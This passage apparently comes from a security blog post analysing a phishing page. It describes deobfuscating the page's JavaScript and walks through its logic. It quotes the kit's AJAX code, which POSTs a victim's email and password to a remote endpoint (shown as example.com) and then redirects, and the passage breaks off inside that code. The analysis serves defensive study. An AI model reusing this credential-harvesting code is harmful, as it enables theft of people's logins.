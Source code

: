 ## Unpacking

The first approach for deobfuscating JS for me is to use [JSNice](http://jsnice.org/), an amazing tool by the [Secure, Reliable, and Intelligent Systems Lab, Computer Science Department of the ETH Zurich](http://www.sri.inf.ethz.ch/). Taking the previous code and entering it into the tool gives us a more readable first version of the snippet.

However, some parts, such as the string array, still remained. After searching for some time I found out [synchrony by relative](https://github.com/relative/synchrony), a pretty neat javascript cleaner & deobfuscator, primarily target for [javascript-obfuscator](https://github.com/javascript-obfuscator/javascript-obfuscator) tool.

The several outputs of the different tools can be seen in (1) [JSnice](https://gist.github.com/jpdias/6d200c746f335ff86b5c809795e5af47#file-js-nice-output-js) and (2)[synchrony](https://gist.github.com/jpdias/6d200c746f335ff86b5c809795e5af47#file-synchrony-output-js). And, after some final, manual, adjustment, the readable result can be found on [here](https://gist.github.com/jpdias/6d200c746f335ff86b5c809795e5af47#file-manual-adjustment-js).

Why the use of jQuery in 2022?...

## Following the Trail

Moving on, the logic of the code/page is pretty straightforward:

1. The webpage is rendered;
2. The username field is pre-filled with the target email account (the same that received the email);
3. When entering input in the password field, an error of bad password is given *Your account or password is incorrect. If you don't remember your password, reset it now.*
    - Clicking *reset it now* redirect us to the same page.
4. When entering a second input, the js redirects us to the email address domain.
5. Under the hood, a JSON object is created and sent to a remote server.

Looking more carefully at the js, we can see the remains of several features that weren't used for this concrete attack. One example of such is the use of `https://logo.clearbit.com/<company_name>`, a simple API that returns the logo of a company passed as a parameter.

The request code is also a simple AJAX request:

```js
$.ajax({
    dataType: 'JSON',
    URL: "https://example.com/dwsync/def.php",
    type: 'POST',
    data: {
        ai: email_address,
        pr: password,
    },
    beforeSend: function (xhr) {
    $('#submit-btn').val('Verifing...')
    },
    success: function (arr) {
        if (arr) {
            $('#msg').show()
            $('#submit-btn').val('Sign in')
            console.log(arr)
            if (arr.signal == 'ok') {
            $('#pr').val('')
                if (attempt_counter >= 2) {
                    return (
                        (attempt_counter = 0),
                        window.location.replace('http://www.' + company_url),
                        false
                    )
                }
            }
```